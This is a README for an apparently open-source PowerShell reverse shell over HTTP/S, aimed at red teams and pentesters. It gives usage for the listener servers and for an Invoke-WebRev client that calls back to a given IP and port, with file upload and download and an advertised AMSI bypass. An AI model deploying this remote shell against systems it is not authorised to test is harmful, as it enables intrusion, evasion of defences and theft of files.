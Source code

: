 # Powershell HTTP/S Reverse Shell
HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol.

##  server.py - server unisession

![Alt text](images/revshell.jpg "Server")

Server usage:
```
usage: server.py [-h] [--ssl] host port

Process some integers.

positional arguments:
  host        Listen Host
  port        Listen Port

optional arguments:
  -h, --help  show this help message and exit
  --ssl       Send traffic over ssl
```

##  server-multisession.py - server multisession
```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

## Invoke-WebRev.ps1 - client

Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

# Features
    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass
    - Multiple sessions (only server-multisession.py)

# TODO
    - Autocomplete
    
